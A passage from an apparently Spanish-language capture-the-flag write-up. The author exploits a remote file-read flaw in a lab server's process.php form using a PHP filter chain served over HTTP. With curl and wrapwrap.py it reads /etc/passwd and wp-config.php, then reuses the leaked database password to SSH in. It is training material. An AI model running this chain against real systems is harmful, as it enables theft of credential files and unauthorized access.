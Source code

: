 Levanto un servidor para exponer el archivo.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Finalmente, se envío la url del archivo al formulario mediante curl para validar la lectura remota. El contenido de `/etc/passwd` es devuelto correctamente, confirmando así la vulnerabilidad.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ curl -X POST http://examendos.thlcpptv16.thl/process.php -H 'content-type:application/x-www-form-urlencoded' --data 'url=http://192.168.0.171/chain.txt'
{"message":"root:x:0:0:root:/root:/bin/bash=0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin=0Abin:x:2:2:bin:/bin:/usr/sbin/nologin=0Asys:x:3:3:sys:/dev:/usr/sbin/nologin=0Async:x:4:65534:sync:/bin:/bin/sync=0Agames:x:5:60:games:/usr/games:/usr/sbin/nologin=0Aman:x:6:12:man:/var/cache/man:/usr/sbin/nologin=0Alp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin=0Amail:x:8:8:mail:/var/mail:/usr/sbin/nologin=0Anews:x:9:9:news:/var/spool/news:/usr/sbin/nologin=0Auucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin=0Aproxy:x:13:13:proxy:/bin:/usr/sbin/nologin=0Awww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin=0Abackup:x:34:34:backup:/var/backups:/usr/sbin/nologin=0Alist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin=0Airc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin=0A_apt:x:42:65534::/nonexistent:/usr/sbin/nologin=0Anobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin=0Asystemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin=0Asystemd-timesync:x:997:997:systemd Time Synchronization:/:"}
```

---

Ahora, apunto al archivo de configuración de wordpress ubicado en `wp-config.php`, con el objetivo de extraer credenciales.

```terminal
(venv)-/home/kali/Documents/thl/thlcppt_v16:-$ ./wrapwrap.py /var/www/examen.thlcpptv16.thl/wp-config.php '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /var/www/examen.thlcpptv16.thl/wp-config.php.
[+] Wrote filter chain to chain.txt (size=705064).
                                                                                                    
/home/kali/Documents/thl/thlcppt_v16:-$ curl -X POST http://examendos.thlcpptv16.thl/process.php -H 'content-type:application/x-www-form-urlencoded' --data 'url=http://192.168.0.171/chain.txt'
{"message":"<?php=0D=0Adefine( 'DB_NAME', 'wordpress' );=0D=0A=0D=0Adefine( 'DB_USER', 'WPUSER' );=0D=0A=0D=0Adefine( 'DB_PASSWORD', 'T0mB3stP4ssw0rd!' );=0D=0A=0D=0Adefine( 'DB_HOST', 'localhost' );=0D=0A=0D=0Adefine( 'DB_CHARSET', 'utf8' );=0D=0A=0D=0Adefine( 'DB_COLLATE', '' );=0D=0A=0D=0Adefine( 'AUTH_KEY',         'put your unique phrase here' );=0D=0Adefine( 'SECURE_AUTH_KEY',  'put your unique phrase here' );=0D=0Adefine( 'LOGGED_IN_KEY',    'put your unique phrase here' );=0D=0Adefine( 'NONCE_KEY',        'put your unique phrase here' );=0D=0Adefine( 'AUTH_SALT',        'put your unique phrase here' );=0D=0Adefine( 'SECURE_AUTH_SALT', 'put your unique phrase here' );=0D=0Adefine( 'LOGGED_IN_SALT',   'put your unique phrase here' );=0D=0Adefine( 'NONCE_SALT',       'put your unique phrase here' );=0D=0A=0D=0A$table_prefix =3D 'wp_';=0D=0A=0D=0A/**=0D=0A * For developers: WordPress debugging mode.=0D=0A *=0D=0A * Change this to true to enable the display of notices during development.=0D=0A * It is "}
```

El contenido filtrado revela las credenciales `T0mB3stP4ssw0rd!`, pertenecientes al usuario `Tom`.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ ssh tom@thlcpptv16.thl
tom@192.168.0.138's password: T0mB3stP4ssw0rd!

tom@thlcpptv16:~$ id
uid=1000(tom) gid=1000(tom) grupos=1000(tom)
```

---